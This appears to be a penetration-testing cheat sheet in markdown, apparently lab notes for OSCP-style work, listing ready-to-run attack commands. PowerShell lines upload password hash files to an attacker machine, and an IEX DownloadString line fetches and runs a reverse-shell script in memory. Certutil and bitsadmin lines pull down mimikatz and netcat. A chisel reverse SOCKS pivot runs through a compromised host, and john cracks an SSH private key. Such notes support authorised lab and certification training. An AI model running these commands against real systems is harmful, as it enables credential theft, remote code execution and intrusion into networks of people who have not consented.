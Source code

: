 ### Powershell to upload to Kali
`powershell (​New​-​Object System​.​Net​.​WebClient​)​.​UploadFile​(​'http://192.168.119.143/upload.php'​, 'C:\Tools\active_directory\hashes'​)`

### Powershell to grab remote file and run it in memory
`powershell "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.12/Invoke-PowerShellTcp.ps1');"`

### Powershell Upload to kali - Make sure apache is running and the upload.php is there! 
`powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.143/upload.php', 'asrep_hashes.txt')`

### Certutil transfer **HIGHLY EFFECTIVE**
`certutil.exe -urlcache -split -f http://192.168.119.143:8000/mimikatz.exe`

### If certutil fails try bitsadmin
`bitsadmin /transfer job /download /priority high http://192.168.245.139/nc.exe c:\\pwn\\nc.exe'`

--------------------------------------------
# Tunneling 
### SSH Port forwarding guide
[SSH Tunneling](https://refabr1k.gitbook.io/oscp/info-gathering/ssh/ssh-tunneling)

[Pivoting and Tunneling](https://medium.com/@kuwaitison/pivoting-and-tunneling-for-oscp-and-beyond-cheat-sheet-3435d1d6022)

[Tunneling with Chisel](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

### set up ssh port forwarding with compromised user - good if you cannot use chisel 
`sudo ssh -L 80:192.168.120.209:80 <compromised_user>@192.168.120.209` 

### Setting up chisel w/ socks proxy
*On the compromised host that you want to pivot through, proxychains socks5 needs configured* 
`./chisel client 10.10.15.4:8000 R:socks` 
*On Kali* 
`chisel server --socks5 -p 8000 -reverse`

### Proxychains nmap example
`sudo proxychains -q nmap --top-ports=1000 -Pn -sT -v -oA nmap_172.16.1.102 172.16.1.102` 

------------------------------------------------
# SSH 
### Convert SSH private key to hash for brute force
`ssh2john.py in-file-privkey > out-file.hash` 
`john out-file.hash --wordlist=/usr/share/wordlists/rockyou.txt`
